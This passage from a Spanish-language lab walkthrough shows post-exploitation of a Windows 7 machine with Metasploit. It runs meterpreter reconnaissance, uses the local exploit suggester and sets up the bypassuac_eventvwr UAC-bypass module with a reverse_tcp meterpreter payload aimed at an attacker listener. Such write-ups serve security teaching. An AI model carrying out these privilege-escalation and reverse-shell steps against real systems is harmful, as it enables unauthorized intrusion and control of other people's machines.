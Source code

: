 Una vez dentro podemos usar ciertos comandos implementados en meterpreter para obtener información o navegar por el sistema, por ejemplo:

```bash
meterpreter > getuid
Server username: Dark-PC\Dark
meterpreter > sysinfo
Computer        : DARK-PC
OS              : Windows 7 (6.1 Build 7601, Service Pack 1).
Architecture    : x64
System Language : en_US
Domain          : WORKGROUP
Logged On Users : 2
Meterpreter     : x86/windows
```
A parte de comandos de varios que ofrece, metasploit implementa herramientas para intentar analizar posibles vulnerabilidades dentro del sistema para poder escalar privilegios.

```bash
meterpreter > run post/multi/recon/local_exploit_suggester
```
En este caso vamos a utilizar el siguiente exploit.

```bash
2   exploit/windows/local/bypassuac_eventvwr                       Yes                      The target appears to be vulnerable.
```

Ahora para poder hacer uso de este exploit mandaremos a segundo plano la sesión de meterpreter (`CTRL+Z`) y ejecutaremos el exploit.

## Escalando privilegios

Ahora desde msfconsole podemos ejecutar el exploit con el comando `use exploit/windows/local/bypassuac_eventvwr`

```bash
meterpreter > 
Background session 1? [y/N]  
msf6 exploit(windows/http/icecast_header) > use exploit/windows/local/bypassuac_eventvwr
[*] No payload configured, defaulting to windows/meterpreter/reverse_tcp
msf6 exploit(windows/local/bypassuac_eventvwr) > options

Module options (exploit/windows/local/bypassuac_eventvwr):

   Name     Current Setting  Required  Description
   ----     ---------------  --------  -----------
   SESSION                   yes       The session to run this module on


Payload options (windows/meterpreter/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.100.210  yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Windows x86



```